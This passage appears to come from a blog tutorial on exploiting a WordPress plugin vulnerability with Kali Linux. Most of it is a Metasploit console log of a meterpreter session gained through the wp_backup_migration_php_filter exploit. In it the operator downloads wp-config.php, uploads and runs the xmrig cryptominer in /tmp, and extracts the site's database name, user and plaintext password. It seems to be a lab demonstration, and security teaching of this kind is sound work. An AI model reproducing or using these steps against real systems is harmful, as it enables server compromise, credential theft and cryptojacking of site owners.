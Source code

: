 ```console
 311  sh                             1001  sh -c ps ax -w -o pid,user,cmd --no-header 2>/dev/null
 312  ps                             1001  ps ax -w -o pid,user,cmd --no-header

meterpreter >
meterpreter > sysinfo
Computer    : wordpress-7c5479f8-n846l
OS          : Linux wordpress-7c5479f8-n846l 5.10.213-201.855.amzn2.x86_64 #1 SMP Mon Mar 25 18:16:11 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
meterpreter > download /bitnami/wordpress/wp-config.php
[*] Downloading: /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Downloaded 4.19 KiB of 4.19 KiB (100.0%): /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Completed  : /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
meterpreter >
meterpreter > upload xmrig /tmp/xmrig
[*] Uploading  : /home/kali/xmrig -> /tmp/xmrig
[*] Uploaded -1.00 B of 7.90 MiB (0.0%): /home/kali/xmrig -> /tmp/xmrig
[*] Completed  : /home/kali/xmrig -> /tmp/xmrig
meterpreter >
meterpreter > execute -i -H -f /usr/bin/sh -a '-c "chmod a+x /tmp/xmrig ; /tmp/xmrig --version"'
Process 316 created.
Channel 3 created.
XMRig 6.21.3
 built on Apr 23 2024 with GCC 13.2.1
 features: 64-bit AES

libuv/1.48.0
OpenSSL/3.0.13
hwloc/2.10.0
[-] core_channel_interact: Operation failed: 1
meterpreter > exit -y
[*] Shutting down session: 1

[*] 3.73.29.183 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/http/wp_backup_migration_php_filter) > exit -y

┌──(kali㉿kali)-[~]
└─$ grep DB_ wp-config.php
define( 'DB_NAME', 'bitnami_wordpress' );
define( 'DB_USER', 'bn_wordpress' );
define( 'DB_PASSWORD', 'vAX0wwd3wR' );
define( 'DB_HOST', 'wordpress-mariadb:3306' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```

I really like Metasploit's colors, so I've added the logs as images here:

![Metasploit - wordpress_scanner](/assets/img/posts/2024/2024-04-27-exploit-vulnerability-wordpress-plugin-kali-linux-1/kali-linux-metasploit-wordpress_scanner.avif){:width="600"}
_Metasploit - wordpress_scanner_
